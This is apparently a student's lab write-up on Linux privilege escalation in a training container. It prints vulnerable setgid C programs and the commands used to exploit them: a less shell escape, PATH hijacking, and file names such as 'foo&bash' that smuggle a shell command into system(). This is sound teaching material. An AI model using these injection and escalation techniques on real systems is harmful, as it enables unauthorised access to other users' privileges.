




Student: Ernst Schwaiger
Date 2024-03-02

# Linux Security

## Installing the Docker Container

On an Ubuntu system, docker is installed via `sudo apt install docker.io`. In order to run the docker commands the user must be added to the `docker` group via `sudo usermod -aG docker <username>`. The user will belong to the `docker` group after a new login.

After downloading the docker image `unix_basics.tgz` it can be installed via `docker image load -i unix_basics.tgz`. Once installed, an entry `unix_basics` shall show up when invoking `docker image ls` on the command line.

In the final step, a docker container can be instantiated via `docker run -it unix_basics`.

## Stage1

`whoami` indicates that the current user in the container is "user", `ls -lsa` provides

```
total 12
4 drwxr-x--- 1 user root 4096 Feb 23  2022 .
4 drwxr-xr-x 1 root root 4096 Feb 20  2022 ..
4 -rw-r-xr-- 1 root root  383 Feb 20  2022 README.txt
0 lrwxrwxrwx 1 root root   19 Feb 23  2022 stage1 -> /home/stage1/stage1
```

Trying to run `stage1` returns an error message `bash: ./stage1: restricted: cannot specify '/' in command names`. It seems the user is running a restricted shell. No commands can be issued using absolute or relative paths. However, all commands that lie in `$PATH` folders are still available.

Trying out `bash` starts a new shell which is not restricted, i.e. `./stage1` can be executed now and prints `Well done! First stage is almost complete.` on stdout. `ls -lsa /home/stage1/stage1` yields:
```
12 -rwxr-sr-x 1 root stage1 8441 Feb 20  2022 /home/stage1/stage1
```
This indicates that any process which runs the binary will do so with group `stage1`, the goal is to gain a shell in which the user belongs to `stage1`.

Examining `/home/stage1/stage1.c`:

```c
/* includes, ... */
void main()
{

        gid_t egid = getegid();
        setregid(egid, egid);

        chdir("/home/stage1");
        system("/bin/less /home/stage1/stage1.txt");
}
```

The program gets the effective group id of the running process `stage1` and sets it as real and effective group id of the running process. Afterwards it changes the process' working directory and runs `/bin/less /home/stage1/stage1.txt`.
Since the `less` command is invoked via absolute path, and `/bin/less` as well as `/home/stage1/stage1.txt` cannot be modified by the user, it is not possible to escape via this approach.
However, `less` allows to run commands while displaying text on the command shell. Simply entering `!` opens a default shell with the user id of the running process, `groups` shows that `user` now belongs to `stage1`:



## Stage2

Examining `/home/stage2/stage2.c`:

```c
/* includes, ... */
int main(int argc, char **argv)
{
  gid_t egid = getegid();
  setregid(egid, egid);

  system("cat /home/stage2/stage2.txt");
  return 0;
}
```

A similar setting as in `Stage1`, however, `cat` is used instead of `less`, and no absolute path is given for `cat`. By extending the `PATH` variable in the called process and creating a custom `cat` command it is possible to establish a shell where user belongs to `stage2`:

Setting up a custom `cat` in `$HOME/cat`:
```sh
#!/bin/bash
echo "starting a new bash..."
bash
```
`chmod 755 $HOME/cat` makes the script executable for all users, `PATH=$HOME:$PATH /home/stage2/stage2` runs the process while feeding it a `PATH` variable that causes `stage2` to execute the shell script instead of the `cat` command:



## Stage3

Examining `/home/stage3/stage3.c`:

```c
int main(int argc, char **argv)
{
  /* set up command buffer */
  char cmdbuf[128] = "/usr/bin/file ";
  char *input = cmdbuf + strlen(cmdbuf);
  int len = sizeof(cmdbuf) - (strlen(cmdbuf) + 1);


  gid_t egid = getegid();
  setregid(egid, egid);

  /* read input -- use safe function to prevent buffer overrun */
  fprintf(stdout, "Please enter the filename you want to access: ");
  fgets(input, len, stdin);
  input[strcspn(input, "\r\n")] = 0;

  struct stat buffer;
  int exist = stat(input,&buffer);
  if(exist == 0) {
    /* execute command */
    system(cmdbuf);
  } else {
    fprintf(stdout, "Your file does not exist!\n");
    return 1;
  }

  return 0;

}
```

The command executes `file` with a user provided parameter. `/usr/bin/file` is invoked, so it is not possible to inject a user provided `file` script. The input is sanitized by rejecting `\n\r` characters, then by verifying that the provided path actually refers to an existing file. In the end `/usr/bin/file` is invoked with the sanitized string.

Since the sanitization does not reject `&` characters, it is possible to trick the program by feeding it with a valid file path while at the same time starting a bash.

In the users folder, two files are created: `touch 'foo&bash'` creates the file which will be fed to `home/stage3/stage3`. The second file is optional, it just prevents that `stage3` will issue an error message when running the first part of the command: `echo "This is an ASCII file.">foo`:



## Stage4

Examining `/home/stage4/stage4.c`:

```c

/* includes, ... */

char cmdbuf[128] = "echo interrupt signal caught, terminating ";
char *progname;

/*
 * Handle interrupt in case the program is running
 * too long and the user wants to terminate it.
 */
void handle_signal(int sig)
{
  int len = sizeof(cmdbuf) - (strlen(cmdbuf) + 1);
  if (strlen(progname) > len)
    progname[len] = '\0';
  strcat(cmdbuf, progname);

  system(cmdbuf);
  exit(1);
}

void usage()
{
  printf("%s <n> where 0 < n <= 5.000\n", progname);
  exit(1);
}

/*
 * The program takes one argument line parameter n (which has to be a
 * positive integer input parameter) and then prints out the first n
 * prime numbers.
 */
int main(int argc, char **argv)
{
  struct sigaction sa;
  int cnt, N, found;
  unsigned long candidate, divisor;

  gid_t egid = getegid();
  setregid(egid, egid);

  /* set up signal handling */
  memset(&sa, sizeof(struct sigaction), 0);
  sa.sa_handler = handle_signal;
  sigaction(SIGUSR1, &sa, NULL);


  /* process argument */
  progname = argv[0];
  if (argc != 2)
    usage();
  N = strtol(argv[1], NULL, 10);
  if ((N <= 0) || (N > 5000))
    usage();

  /* calclating the first N primes ... */

  return 0;
}
```

The program sets up a signal handler for `SIGUSR1`, which contains the `system()` function call which must be exploited for getting a `stage4` shell here. The only parameter that can be controlled from the outside is `progname` which is assigned from `argv[0]`. That parameter can be controlled by setting up a symlink and using a similar approach as in stage3:

Setting up a symlink which will start a bash in the signal handler, but can be used in the same time to invoke `stage4`:

```sh
ln -s -T /home/stage4/stage4 'stage4&bash'
```

After invoking the program via the symlink, the program can be interrupted by sending `^z`, or Control-z in the terminal. The signal must arrive before `stage4` terminates. 

```sh
user@5bdd1e843b2e:~$./stage4\&bash 5000
# primes printed by stage4
^Z
[1]+  Stopped                 ./stage4\&bash 5000
user@5bdd1e843b2e:~$
```
Now it is possible to send the signal to the process and thereafter resuming it:
```
user@5bdd1e843b2e:~$ ps | grep stage4
    238 pts/0    00:00:00 stage4&bash
user@5bdd1e843b2e:~$ kill -SIGUSR1 238
user@5bdd1e843b2e:~$ fg
./stage4\&bash 5000
interrupt signal caught, terminating ./stage4
```
Now `user` runs a "stage4" `bash`:



## Stage5

The file in `/home/stage5/stage5.txt` contains a hint:

```
Wait, there is no executable here? But you are sure there has to be something. After all you saw the "SUpervisoryDataOrganisation" menue entry when you logged in. So there must be one more level of privilege to gain... But how?
```

I could not find the answer to that question.
